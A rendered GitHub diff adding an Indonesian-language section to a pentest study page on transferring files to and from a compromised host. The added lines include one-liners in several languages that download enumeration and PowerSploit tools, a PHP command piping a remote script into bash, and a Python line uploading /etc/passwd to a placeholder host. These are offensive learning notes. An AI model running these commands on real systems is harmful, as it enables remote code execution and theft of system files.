

Before and after one commit to nmwafa/nmwafa.github.io, a Markdown page: learn/file-transfer.md, the part around the change printed below. Shown: that part at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
GITBOOK-7: No subject

````diff
--- a/learn/file-transfer.md
+++ b/learn/file-transfer.md
@@ -261,3 +261,60 @@ ruby -run -ehttpd . -p8000
 ```
 scp /path-file-yg-diupload username@10.129.86.90:/home/batagor/
 ```
+
+<h2 align="center">Transfer file dengan kode</h2>
+
+```
+# menggunakan python
+python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
+python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
+
+# menggunakan PHP
+php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
+php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'
+php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
+
+# menggunakan ruby
+ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
+
+# menggunakan perl
+perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
+
+# skrip jawa
+# buat file wget.js, isinya:
+var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
+WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
+WinHttpReq.Send();
+BinStream = new ActiveXObject("ADODB.Stream");
+BinStream.Type = 1;
+BinStream.Open();
+BinStream.Write(WinHttpReq.ResponseBody);
+BinStream.SaveToFile(WScript.Arguments(1));
+
+# donlot dengan skrip tadi dari windows
+cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
+
+# menggunakan vbscript
+# buat file wget.vbs, isinya:
+dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
+dim bStrm: Set bStrm = createobject("Adodb.Stream")
+xHttp.Open "GET", WScript.Arguments.Item(0), False
+xHttp.Send
+
+with bStrm
+    .type = 1
+    .open
+    .write xHttp.responseBody
+    .savetofile WScript.Arguments.Item(1), 2
+end with
+
+# donlot dengan skrip tadi dari windows
+cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
+
+# upload file dg python. jalankan server upload di target
+python3 -m uploadserver
+
+# satu baris kode piton untuk upload
+python3 -c 'import requests;requests.post("http://<ip>:8000/upload",files={"files":open("/etc/passwd","rb")})'
+```
+
````
Also changed, not shown: other parts of learn/file-transfer.md (+21 -0 lines).
